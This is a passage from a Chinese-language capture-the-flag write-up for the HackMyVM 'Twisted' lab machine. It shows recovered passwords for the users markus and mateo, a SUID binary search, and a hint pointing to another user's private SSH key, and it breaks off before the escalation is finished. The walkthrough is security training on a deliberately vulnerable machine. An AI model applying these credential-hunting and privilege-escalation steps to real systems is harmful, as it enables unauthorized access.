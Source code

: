 ```PHP

┌──(root㉿kali)-[/home/kali/hmv/Twisted]
└─# cat cat-hidden.jpg.out 
thisismypassword
                                                                                              
┌──(root㉿kali)-[/home/kali/hmv/Twisted]
└─# cat cat-original.jpg.out 
markuslovesbonita
```
意思是markuslovesbonita 是他的密码？

原始文件名可能是用户名 markus  mateo

经过测试获取到两个用户与对应的账户密码

```PHP
markus   markuslovesbonita 
mateo    thisismypassword
```
ssh端口就是2222

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/11.Twisted.002.png)

## 5. 提权到bonita

```PHP
markus@twisted:~$ find / -perm -4000 2>/dev/null
/home/bonita/beroot
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
markus@twisted:~$ sudo -l
-bash: sudo: command not found
markus@twisted:~$ cd /home/bonita/
markus@twisted:/home/bonita$ ./beroot
-bash: ./beroot: Permission denied
```
看来是需要我们先整到bonita用户

看下给markus我们的提示

```PHP
markus@twisted:~$ cat note.txt 
Hi bonita,
I have saved your id\_rsa here: /var/cache/apt/id\_rsa
```
告诉我们这里存在Bonista用户的私钥

